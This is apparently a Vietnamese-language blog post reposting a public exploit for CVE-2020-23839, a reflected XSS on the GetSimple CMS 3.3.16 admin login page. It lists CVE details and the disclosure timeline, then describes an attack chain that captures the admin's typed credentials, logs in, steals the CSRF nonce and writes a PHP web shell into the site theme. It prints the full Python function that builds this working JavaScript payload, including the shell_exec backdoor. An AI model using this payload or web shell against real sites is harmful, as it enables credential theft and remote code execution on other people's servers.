```yaml
---
title: CVE-2020-23839 
date: 20/6/2021
layout: single

--- 
```

---


## CVE-2020-23839 | GetSimple CMS v3.3.16 - Reflected XSS to RC
Tác giả: Bobby Cooke (boku) 
[boku7/CVE-2020-23839](https://github.com/boku7/CVE-2020-23839)

+ OWASP Top Ten 2017: A7:2017-Cross-Site Scripting (XSS)
+ CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') - Type 1: Reflected XSS 
+ CVSS Base Score: 6.1 MEDIUM
+ CVSS v3.1 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
+ [https://nvd.nist.gov/vuln/detail/CVE-2020-23839](https://nvd.nist.gov/vuln/detail/CVE-2020-23839)
+ [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-23839)

## Phân tích lỗ hổng và công bố đầy đủ vấn đề
+ [GetSimpleCMS/issues/1330](https://github.com/GetSimpleCMS/GetSimpleCMS/issues/1330)


--- 
## Mô tả lỗ hổng bảo mật
+ GetSimple CMS v3.3.16 gặp phải XSS được phản ánh trên Cổng thông tin đăng nhập quản trị viên. Vào ngày 12 tháng 8 năm 2020, nhà cung cấp đã nhận được chi tiết tiết lộ đầy đủ về lỗ hổng bảo mật thông qua email riêng tư. Lỗ hổng bảo mật đã được tiết lộ công khai vào ngày 13 tháng 9 năm 2020 thông qua MITER với việc xuất bản CVE-2020-23839, chứa rất ít chi tiết và không có bằng chứng về khái niệm. Vào ngày 20 tháng 1 năm 2021, việc tiết lộ đầy đủ và phân tích mã đã được tiết lộ công khai dưới vé các vấn đề hoạt động của GetSimple CMS GitHub.

## Mô tả Khai thác
+ Khai thác này tạo ra một trọng tải XSS được phản ánh, ở dạng siêu liên kết, khai thác CVE-2020-23839. Khi Quản trị viên của hệ thống GetSimple CMS truy cập URL này trong trình duyệt của họ và nhập thông tin đăng nhập của họ, một chuỗi tấn công khai thác tinh vi sẽ được khởi chạy, cho phép kẻ tấn công từ xa giành được Quyền thực thi mã từ xa của máy chủ lưu trữ hệ thống GetSimple CMS


## Chuỗi tấn công

1. Thủ thuật của kẻ tấn công GetSimple CMS Admin để truy cập URL được cung cấp từ khai thác này
2. Quản trị viên sau đó nhập thông tin đăng nhập của họ vào cổng đăng nhập GetSimple CMS
3. Tải trọng XSS được phản ánh sẽ kích hoạt Hành động khi Quản trị viên nhấp vào nút Gửi hoặc nhấn Enter
4. Tải trọng XSS thực hiện yêu cầu XHR POST trong nền, đăng nhập trình duyệt vào bảng quản trị GetSimple CMS
5. Sau đó, trọng tải XSS thực hiện yêu cầu XHR GET thứ hai tới admin / edit-theme.php và thu thập Mã thông báo CSRF & chủ đề đã định cấu hình cho các trang web được lưu trữ trên CMS
6. Tải trọng XSS sau đó thực hiện yêu cầu ĐĂNG XHR thứ 3 tới admin / edit-theme.php, đưa một WebShell backdoor PHP vào tất cả các trang của CMS
7. Kẻ khai thác liên tục cố gắng kết nối với trang /index.php công khai của hệ thống CMS GetSimple đích cho đến khi một WebShell được trả về
8. Khi khai thác kết nối với WebShell, một WebShell PHP tương tác xuất hiện trong bảng điều khiển kẻ tấn công


---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

## XSS_PAYLOAD

```python
def genXssPayload():
    XSS_PAYLOAD = '/index/javascript:'
    XSS_PAYLOAD += 'var s = decodeURIComponent("%2f");'
    XSS_PAYLOAD += 'var h = "application"+s+"x-www-form-urlencoded";'
    XSS_PAYLOAD += 'var e=function(i){return encodeURIComponent(i);};'
    XSS_PAYLOAD += 'var user = document.forms[0][0].value;'
    XSS_PAYLOAD += 'var pass = document.forms[0][1].value;'
    XSS_PAYLOAD += 'var u1 = s+"admin"+s;'
    XSS_PAYLOAD += 'var u2 = u1+"theme-edit.php";'
    XSS_PAYLOAD += 'var xhr1 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr2 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'var xhr3 = new XMLHttpRequest();'
    XSS_PAYLOAD += 'xhr1.open("POST",u1,true);'
    XSS_PAYLOAD += 'xhr1.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'params = "userid="+user+"&pwd="+pass+"&submitted=Login";'
    XSS_PAYLOAD += 'xhr1.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr1.readyState == 4 && xhr1.status == 200) {'
    XSS_PAYLOAD += 'xhr2.onreadystatechange = function(){'
    XSS_PAYLOAD += 'if (xhr2.readyState == 4 && xhr2.status == 200) {'
    XSS_PAYLOAD += 'r=this.responseXML;'
    XSS_PAYLOAD += 'nVal = r.querySelector("#nonce").value;'
    XSS_PAYLOAD += 'eVal = r.forms[1][2].defaultValue;'
    XSS_PAYLOAD += 'xhr3.open("POST",u2,true);'
    XSS_PAYLOAD += 'xhr3.setRequestHeader("Content-Type", h);'
    XSS_PAYLOAD += 'payload=e("<?php echo shell_exec($_REQUEST[FierceGodKick]) ?>");'
    XSS_PAYLOAD += 'params="nonce="+nVal+"&content="+payload+"&edited_file="+eVal+"&submitsave=Save+Changes";'
    XSS_PAYLOAD += 'xhr3.send(params);'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr2.open("GET",u2,true);'
    XSS_PAYLOAD += 'xhr2.responseType="document";'
    XSS_PAYLOAD += 'xhr2.send();'
    XSS_PAYLOAD += '}};'
    XSS_PAYLOAD += 'xhr1.send(params);'
    XSS_PAYLOAD += '%2f%2f'
    return XSS_PAYLOAD
```
![](https://raw.githubusercontent.com/boku7/CVE-2020-23839/main/CVE202023839.png)
---
## Nguồn bài viết và mã khai thác được tác giả Boku7 chia sẻ  

## Chúc May Mắn :D
